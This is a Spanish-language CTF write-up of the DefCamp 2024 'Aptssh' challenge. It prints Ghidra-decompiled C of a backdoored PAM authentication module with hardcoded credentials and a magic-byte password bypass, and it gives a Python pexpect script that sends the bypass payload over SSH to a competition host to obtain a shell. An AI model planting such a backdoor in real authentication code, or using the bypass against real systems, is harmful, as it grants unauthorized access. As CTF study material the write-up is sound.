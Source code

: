 ```yaml
---
layout: post
title: Aptssh DefCamp 2024
comments: true
categories: [Pwn, Writeups, DefCamp]
---
```


Este es un reto de la competición de CTF DefCamp 2024, organizada por [DefCamp](https://www.linkedin.com/company/defcamp/?originalSubdomain=es). Este fue uno de los 4 retos de la categoría de PWN, de categoría *easy*.

![Image]({{ site.baseurl }}/images/posts/2024-10-1-Buy-coffee-DefCamp24-CTF-Logo.png)

# Overview

Este reto consistía en una aplicación PAM con una *backdoor* que spawneaba una shell en caso de que la contraseña cumpliera ciertos requisitos. 

# Reconocimiento

Se nos da únicamente una conexión por **SSH** (IP:puerto y credenciales), al conectarnos, se nos imprimen dos archivos encodeados en *base64*, en [cyberchef](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')&input=WTI5dVptazZaR1Z1ZEdsaGJBPT0&oeol=CR) podemos convertirlo en dos archivos. Uno de ellos, es el que supuestamente tiene una *backdoor*. Podemos inspeccionar con *ghidra*:

```c
undefined4 pam_sm_authenticate(undefined8 param_1)
{
  int iVar2;
  size_t sVar3;
  FILE *__stream;
  char *pcVar4;
  undefined2 local_112;
  char *local_110;
  char *local_108;
  undefined4 local_100;
  undefined2 local_fc;
  undefined2 local_fa;
  undefined local_f8 [16];
  undefined local_e8 [16];
  undefined local_d8 [16];
  undefined local_c8 [16];
  undefined local_b8 [16];
  undefined local_a8 [16];
  undefined4 local_98;
  undefined local_88 [120];
  undefined auVar1 [16];
  
  rand();
  local_98 = 0;
  local_f8 = (undefined  [16])0x0;
  local_e8 = (undefined  [16])0x0;
  local_d8 = (undefined  [16])0x0;
  local_c8 = (undefined  [16])0x0;
  local_b8 = (undefined  [16])0x0;
  local_a8 = (undefined  [16])0x0;
  iVar2 = dfgebrycw();
  if (iVar2 == 0) {
    iVar2 = pam_get_user(param_1,&local_110,"Username: ");
    if (iVar2 == 0) {
      iVar2 = pam_get_authtok(param_1,6,&local_108,0);
      if (iVar2 != 0) {
        return 7;
      }
      iVar2 = dfgebrycw();
      if (iVar2 != 0) {
        return 7;
      }
      send_debug_message(param_1,local_88);
	      iVar2 = strcmp(local_108,"aptssh");                           /*COMPARACION PARA aptssh:aptssh*/
      if (iVar2 == 0) {
        iVar2 = strcmp(local_110,"aptssh");
        if (iVar2 == 0) {
          output_base64_file(param_1,"/lib/security/pam_passfile.so");
          output_base64_file(param_1,"/pam_passfile.o");
          return 0;
        }
      }
      else {                                                           /*COMPARACION ALTERNATIVA*/
        iVar2 = ierubvhcjsx();
        if (iVar2 == 0) {
          iVar2 = dfgebrycw();
          if (iVar2 != 0) {
            return 7;
          }
          pam_casual_auth(&local_112);
          sVar3 = strlen(local_108);
          if (100 < sVar3) {                             /*COMPARA LA LONGITUD DE LA CONTRASEÑA*/
            iVar2 = 7000;
            do {
              iVar2 = iVar2 + -8;
            } while (iVar2 != 0);
            local_100 = 0xadc29ec3;
            local_fa = 0xafc3;
            local_fc = local_112;
            auVar1[0xf] = 0;
            auVar1._0_15_ = local_f8._1_15_;
            local_f8 = auVar1 << 8;
            iVar2 = memcmp(local_108 + 100,&local_100,9);  /*COMPARA A PARTIR DEL CARACTER 100 DE LA CONTRASEÑA*/
            if (iVar2 == 0) {
              iVar2 = 10000;
              do {
                iVar2 = iVar2 + -8;
              } while (iVar2 != 0);
              return 0;
            }
          }
          iVar2 = ierubvhcjsx();
          if (iVar2 == 0) {
            __strcpy_chk(local_f8,local_108,100);
            iVar2 = strcmp(local_110,"sshuser");
            if (iVar2 == 0) {
              __stream = fopen("/home/sshuser/pass.txt","r");
              if (__stream == (FILE *)0x0) {
                return 7;
              }
              pcVar4 = fgets(local_f8,100,__stream);
              if (pcVar4 != (char *)0x0) {
                fclose(__stream);
                sVar3 = strcspn(local_f8,"\n");
                local_f8[sVar3] = 0;
                iVar2 = strcmp(local_108,local_f8);
                if (iVar2 != 0) {
                  return 7;
                }
                return 0;
              }
              fclose(__stream);
              iVar2 = 10000;
              do {
                iVar2 = iVar2 + -8;
              } while (iVar2 != 0);
              return 7;
            }
            iVar2 = 10000;
            do {
              iVar2 = iVar2 + -8;
            } while (iVar2 != 0);
          }
        }
      }
    }
  }
  else {
    iVar2 = 10000;
    do {
      iVar2 = iVar2 + -8;
    } while (iVar2 != 0);
  }
  return 10;
}
```

Aquí vemos dos comparaciones principales, la primera, en caso de utilizar las credenciales `aptssh:aptssh`, que nos dará los archivos que tenemos. Además, vemos que en caso de un login correcto, tenemos un código de estado `0` (`return 0;`).

En la segunda comparación, se comprueba que la longitud de la contraseña sea mayor de 100. Después, se comprueban los carácteres a partir de la posición 100:

```c
if (100 < sVar3) {    /*COMPARA LA LONGITUD DE LA CONTRASEÑA*/
	
	iVar2 = 7000;
	do {
	  iVar2 = iVar2 + -8;
	} while (iVar2 != 0);    /*DELAY*/
	
	local_100 = 0xadc29ec3;
	local_fa = 0xafc3;
	local_fc = local_112;
	auVar1[0xf] = 0;
	auVar1._0_15_ = local_f8._1_15_;
	local_f8 = auVar1 << 8;
	iVar2 = memcmp(local_108 + 100,&local_100,9);  /*COMPARA A PARTIR DEL CARACTER 100 DE LA CONTRASEÑA*/
	if (iVar2 == 0) {
	  iVar2 = 10000;
	  do {
		iVar2 = iVar2 + -8;
	  } while (iVar2 != 0);
	  return 0;
	}
  }
```

Vemos que se comparan 9 bytes del dirección a la que apunta `local_100`, sin embargo, sólo contiene 4 (`0xadc29ec3`). Por tanto, seguirá leyendo las posiciones adyacentes:

```c
undefined4 local_100;
undefined2 local_fc;
undefined2 local_fa;
undefined local_f8 [16];
```

Por tanto, debemos pasar los valores que contendrán dichas variables: `local_100 (4B) + local_fc (2B) + local_fa (2B) + local_f8 (1B)`

```c
void pam_casual_auth(undefined2 *param_1) {
  *param_1 = 0xbec2;
  return;
}
```
> `local_112` se asigna mediante esta función.

# Explotación

De esta forma nos queda un payload como: `100*A + 0xadc29ec3 + 0xbec2 + 0xafc3 + 0x00`. Ya podemos crear un script de *python*, teniendo en cuenta que debemos mandar cada valor en *Little-Endian*:

```python
import pexpect

ssh_host = "34.159.156.124"
ssh_port = 32487
username = "sshuser"
payload = (
    b"a" * 100 +
    b"\xc3\x9e\xc2\xad\xc2\xbe\xc3\xaf"
)

child = pexpect.spawn(f"ssh -p {ssh_port} {username}@{ssh_host}")
child.expect("d:")
child.sendline(payload)
print(child.before.decode("utf-8"))
child.interact()
```

Este es un script creado por [r0-dev-null](https://github.com/r0-dev-null/ctf-writeups/tree/main/DCTF%202024%20Quals), ya que genera una shell más estable de la que logré con pwntools.

El reto en sí no creo que deba categorizarse como PWN sino como reversing, ya que no se ataca una vulnerabilidad de un programa como tal, sino que se resuelve mediante la aplocación de ingeniería inversa al binario.